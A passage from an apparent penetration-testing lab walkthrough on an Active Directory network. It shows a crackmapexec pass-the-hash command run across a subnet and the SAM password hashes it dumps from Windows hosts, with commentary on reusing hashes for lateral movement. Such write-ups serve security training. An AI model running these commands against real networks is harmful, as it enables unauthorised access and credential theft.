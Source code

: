 ```
SMB         10.0.2.15       445    HYDRA-DC         [-] HYDRA-DC\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE
```

We find that the same password (same hash!) works for the local `administrator`
account on both, `THEPUNISHER` and `SPIDERMAN`. This is very common in big
organizations, where the IT team have to service a lot of machines and are
often tempted to use the same credentials over and over again. If we can get
the password hash for this admin user, we have access to all machines on the
network, irrespective of the complexity of the password! We will do the same
with any password and any hash that we get hold of: pass it around.



**Enumerate SAM databases**

If we add the switch `--sam` to the previous command, the contents of the SAM
database will be dumped from every machine that we get admin access rights on.
These hash values will be stored in the `crackmapexec` database as well, as the
log below says at the end.

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.0.2.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.4        445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.4        445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.15       445    HYDRA-DC         [-] HYDRA-DC\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
SMB         10.0.2.6        445    THEPUNISHER      [+] Dumping SAM hashes
SMB         10.0.2.4        445    SPIDERMAN        [+] Dumping SAM hashes
SMB         10.0.2.6        445    THEPUNISHER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
SMB         10.0.2.4        445    SPIDERMAN        Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
SMB         10.0.2.6        445    THEPUNISHER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    SPIDERMAN        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.6        445    THEPUNISHER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    SPIDERMAN        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.6        445    THEPUNISHER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:fd82b88db6c66dd3c2cef8f845ca2803:::
SMB         10.0.2.4        445    SPIDERMAN        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
SMB         10.0.2.6        445    THEPUNISHER      frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.0.2.6        445    THEPUNISHER      [+] Added 5 SAM hashes to the database
SMB         10.0.2.4        445    SPIDERMAN        peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.0.2.4        445    SPIDERMAN        [+] Added 5 SAM hashes to the database
```
